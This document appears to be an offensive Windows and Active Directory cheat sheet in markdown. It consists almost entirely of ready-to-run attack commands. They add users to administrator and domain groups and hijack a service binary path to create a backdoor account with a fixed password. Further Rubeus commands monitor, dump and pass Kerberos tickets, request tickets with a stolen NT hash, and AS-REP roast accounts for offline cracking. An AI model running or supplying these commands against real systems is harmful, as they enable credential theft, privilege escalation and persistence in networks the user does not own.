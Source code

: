 ## add user to local administrator
```
net localgroup administrators <username> /add
```

## add user to domain group
```
NET LOCALGROUP "<group_name>" <username> /ADD /DOMAIN
```

## add usdf - Modify service binary path
```
sc config <Service_Name> binpath= "net user rilak 'P@ssw0rd' /add"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
```

# Rubeus
## Rubeus monitor (user or computer)
```
Invoke-Rubeus monitor /interval:5 /nowrap /filteruser:<username>
```

## Rubeus pass the ticket
```
Invoke-Rubeus ptt /ticket:<base64_ticket>
```

## Rubeus show tickets (TGT)
```
Invoke-Rubeus triage
```

## Rubeus dump ticket
```
Invoke-Rubeus dump /nowrap
```

## Rubeus Create a process with other user
```
Invoke-Rubeus asktgt /user:<username> /rc4:<nthash> /createnetonly:powershell.exe /show
```

## Rubeus asreproast PreauthNotRequired user
```
Invoke-Rubeus asreproast /format:hashcat /outfile:hashes.asreproast /user:<username
```
